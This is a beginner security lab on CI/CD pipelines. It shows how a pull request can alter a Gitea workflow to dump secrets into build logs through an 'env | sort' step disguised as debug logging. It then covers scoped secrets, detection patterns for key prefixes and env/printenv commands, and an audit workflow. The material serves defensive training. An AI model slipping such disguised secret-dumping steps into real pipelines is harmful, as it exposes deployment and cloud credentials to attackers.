

# Lab 2.1: CI/CD Fundamentals

<div class="lab-meta">
  <span>~15 min hands-on | ~15 min reference</span>
  <span class="difficulty beginner">Beginner</span>
  <span>Prerequisites: <a href="../tier-0/0.1-version-control.md">Lab 0.1</a></span>
</div>

Over 70% of top GitHub repositories have CI/CD configs that leak secrets to PR builds. Pipelines automate build/test/deploy and run with elevated permissions: deployment tokens, cloud credentials, API keys. If an attacker can influence what a pipeline executes, they steal those secrets.

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Gitea | `gitea:3000` | Git server hosting `wl-webapp` repository |
| Workstation | (your shell) | Development environment with git, python, curl |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. What is a CI/CD Pipeline?"

### Step 1: Clone the repository

```bash
cd /repos/wl-webapp
ls -la
```

### Step 2: Explore the application

```bash
cat app.py
cat requirements.txt
cat test_app.py
```

### Step 3: Examine the CI configuration

```bash
cat .gitea/workflows/ci.yml
```

Notice:

- **Triggers**: `on: push` and `on: pull_request`. the pipeline runs on every code change
- **Jobs**: `test`, `build`, `deploy`. three stages in sequence
- **Secrets**: `SECRET_TOKEN`, `DEPLOY_TOKEN`, `AWS_ACCESS_KEY_ID`. injected as environment variables

### Step 4: Identify the problem

Look at the `env:` block at the top:

```yaml
env:
  SECRET_TOKEN: ${{ secrets.SECRET_TOKEN }}
  DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}
  AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
```

These secrets are available to **every job and every step**. The test job does not need deployment credentials, but it has access to them.

### Step 5: See what a pipeline run looks like

```bash
# Simulate what CI executes for the test job
echo "=== CI Test Job ==="
echo "SECRET_TOKEN=${SECRET_TOKEN:-[set by CI]}"
echo "DEPLOY_TOKEN=${DEPLOY_TOKEN:-[set by CI]}"
python test_app.py
```

---

???+ warning "Phase 2: BREAK. Exfiltrating Secrets via CI"

### Step 1: Create an attack branch

```bash
cd /repos/wl-webapp
git checkout -b feature/add-logging
```

### Step 2: Modify the CI config to leak secrets

```bash
cat > .gitea/workflows/ci.yml << 'EOF'
name: WeakLink Webapp CI

on:
  push:
    branches: [main]
  pull_request:
    branches: [main]

env:
  SECRET_TOKEN: ${{ secrets.SECRET_TOKEN }}
  DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}
  AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Run tests
        run: |
          echo "Running tests..."
          # "Debug logging" that leaks every secret
          env | sort
          python test_app.py
EOF
```

### Step 3: Commit and push

```bash
git add -A
git commit -m "Add debug logging to CI"
git push origin feature/add-logging
```

### Step 4: Create a pull request

```bash
curl -sf -X POST "http://gitea:3000/api/v1/repos/developer/wl-webapp/pulls" \
  -H "Content-Type: application/json" \
  -u "developer:password" \
  -d '{"title":"Add logging","base":"main","head":"feature/add-logging"}'
```

When CI runs this PR, `env | sort` prints ALL environment variables including secrets. Anyone who can view the build logs sees them.

**Checkpoint:** You should now have a PR branch with a modified CI config that dumps environment variables, and a created pull request.

### Step 5: Understand the blast radius

- Any developer with write access can create a PR
- The PR modifies the CI config to print secrets
- The pipeline runs the modified config before review
- The attacker now has deploy tokens, cloud credentials, API keys

**Pipelines execute developer-controlled code with production-level credentials.**

---

???+ success "Phase 3: DEFEND. Least-Privilege CI Secrets"

### Fix 1: Remove global secrets

```bash
cd /repos/wl-webapp
git checkout main
```

Apply scoped secrets:

```bash
cp /lab/src/repo/.gitea/workflows/ci-secure.yml .gitea/workflows/ci.yml
cat .gitea/workflows/ci.yml
```

Key changes:

1. **No global `env:` block**. secrets are not available to all jobs
2. **Secrets only on the deploy step**. `DEPLOY_TOKEN` scoped to the one step that needs it
3. **Environment protection**. `deploy` job requires the `production` environment with approval rules
4. **Test and build jobs have zero secrets**

### Fix 2: Commit the defense

```bash
git add -A
git commit -m "Scope CI secrets to deploy job only"
git push origin main
```

### Additional defenses

1. **Short-lived OIDC tokens** instead of long-lived API keys
2. **Environment protection rules**: require manual approval before deploy jobs access production secrets
3. **Separate PR and push workflows**: PR builds should never have access to any secrets

### Step 3: Final verification

```bash
weaklink verify 2.1
```

---

??? danger "Phase 4: DETECT. Catching Secret Exposure in CI"

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Compromise Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Attacker modifies CI pipeline to access deployment credentials |
| **Valid Accounts: Cloud Accounts** | [T1078.004](https://attack.mitre.org/techniques/T1078/004/) | Stolen CI secrets provide access to cloud infrastructure |

Detection focuses on two signals: CI config changes that expose secrets, and build logs containing credential patterns.

Look for build logs containing API key patterns (`AKIA`, `ghp_`, `sk-`), CI config changes adding `env | sort` / `printenv` / `set`, jobs accessing secrets they have not historically used, and PR builds that reference `secrets.*`.

Network-side, watch for outbound HTTP POST from CI runners to external URLs with Base64 bodies, DNS queries with long encoded subdomains from CI infrastructure, and CI runners connecting to unfamiliar external IPs during test jobs.

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "Secret pattern detected in build logs" (log analysis)
    - "Non-deploy job accessed production secrets" (CI audit)
    - "CI config modified to expose environment variables" (git monitoring)

    **Triage workflow:**

    1. **Check which secrets were exposed**. review build logs for secret patterns
    2. **Check who triggered the build**. PR from external contributor or known developer?
    3. **Check the CI config diff**. did the pipeline config change? Was it reviewed?
    4. **Rotate exposed secrets immediately**. assume any secret visible in logs is compromised
    5. **Audit downstream access**. check if exposed credentials were used against production

    **False positive rate:** Medium. Developers sometimes accidentally echo environment variables. The key signal is whether the build was triggered by a PR (high risk) vs. push to main (lower risk, but still bad).

---

??? example "CI Integration"

    **`.github/workflows/secret-scope-check.yml`:**

    ```yaml
    name: CI Secret Scope Audit

    on:
      pull_request:
        paths:
          - ".github/workflows/**"
          - ".gitea/workflows/**"

    jobs:
      audit-secrets:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4

          - name: Check for global secret exposure
            run: |
              echo "--- Auditing CI configs for overly-broad secret scoping ---"
              ISSUES=0

              for f in .github/workflows/*.yml .gitea/workflows/*.yml; do
                [ -f "$f" ] || continue
                echo "Checking: $f"

                # Check for secrets in top-level env block
                if awk '/^env:/,/^[a-z]/' "$f" | grep -q 'secrets\.'; then
                  echo "::error file=$f::CRITICAL: Secrets in global env block. Scope to specific steps."
                  ISSUES=$((ISSUES + 1))
                fi

                # Check for env/printenv/set in run blocks
                if grep -E '^\s+run:.*\b(env|printenv|set)\b' "$f"; then
                  echo "::warning file=$f::Potential secret leak: env/printenv/set in run block."
                  ISSUES=$((ISSUES + 1))
                fi
              done

              if [ "$ISSUES" -gt 0 ]; then
                echo "Found $ISSUES issue(s). Fix before merging."
                exit 1
              fi
              echo "PASS: No secret scope issues found."
    ```

---

## What You Learned

1. **Global secret scoping is the default mistake**. most CI configs inject secrets at the top level, making them available to every job.
2. **Any developer with PR access can steal secrets** by modifying the CI config in a pull request.
3. **Scope secrets to only the jobs and steps that need them**. least privilege applies to CI too.

## Further Reading

- [Cider Security: Top 10 CI/CD Security Risks](https://www.cidersecurity.io/top-10-cicd-security-risks/)
- [GitHub Docs: Security hardening for GitHub Actions](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [OWASP: CI/CD Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/CI_CD_Security_Cheat_Sheet.html)
